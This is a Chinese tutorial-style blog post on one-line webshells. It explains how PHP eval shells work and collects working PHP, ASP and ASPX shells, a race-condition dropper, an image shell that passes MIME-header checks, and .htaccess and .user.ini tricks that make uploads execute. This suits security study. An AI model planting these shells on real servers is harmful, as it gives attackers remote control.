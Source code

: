 title: 一句话木马
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-04-16 23:01:00
---
#### 什么是一句话木马
  一句话木马是一种短小精悍的恶意代码，通常只有一行之长。
  这种木马可以以上传文件、修改配置等方式将恶意代码植入到受害者服务器上
  然后通过一些特殊手法在服务器端执行，以达到入侵控制目的。

#### 常见的一句话木马
我们接触的一句话木马大多为这种，它需要在PHP环境中才可使用
```
<?php @eval($_POST[cmd]);  ?>
```

#### 木马原理
```
（1）$_POST[cmd]
    $_POST 是 PHP 中的一个超全局变量，POST方式提交的所有变量，都会保存在此数组中，变量名即为键名
（2）eval()
    eval() 函数在 PHP 中用于执行字符串中的代码并返回执行结果。
    该函数对php语法要求严格，所传入语句必须以" ; "号结尾
（3）@
    符号@的作用是屏蔽该语句的报错信息
    如果站点PHP版本>=8.0的话会报错
（4）脉络梳理
    用eval函数，将我们post方式提交的名为cmd的变量，当做PHP代码执行，cmd变量可为任何攻击代码
```

#### 可用于条件竞争的一句话木马
```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])；  ?>' ); ?>
```
这段代码是用来创建一个名为shell.php的文件，并在其中写入一段代码。
这段代码的作用是接受一个POST请求中的cmd参数，并将其作为PHP代码执行。

#### 图片马
**木马内容**
```
GIF89a
<?php @eval($_POST[cmd])；  ?>
 
//GIF89a 为了绕过可能存在的MIME头检测
```
**.htaccess文件**
```
<FilesMatch "jpg">  
SetHandler application/x-httpd-php
</FilesMatch>

//大体意思是设置当前目录所有带jpg的文件名都使用php解析
//无论上传任何文件，只要符合php语言代码规范，就会被当做PHP执行
```
**.user.ini扩展文件**
```
auto_prepend_file=shell.jpg
 
//意思就是当前目录中的php文件的页头会自动去包含shell.jpg中的文件内容
//auto_append_file 是页尾包含
```

#### 一句话木马收集
ASP一句话木马：
```
<% execute(request("value")) %>
```

PHP一句话木马：
```
<?php @eval($_POST['value']); ?>
```

变形后的PHP一句话木马：
```
<?php
  $x = $_GET['z'];
  @eval("$x;");
?>
```

ASPX一句话木马：
```
<%@ Page Language="Jscript" %>
<% eval(Request.Item["value"]) %>
```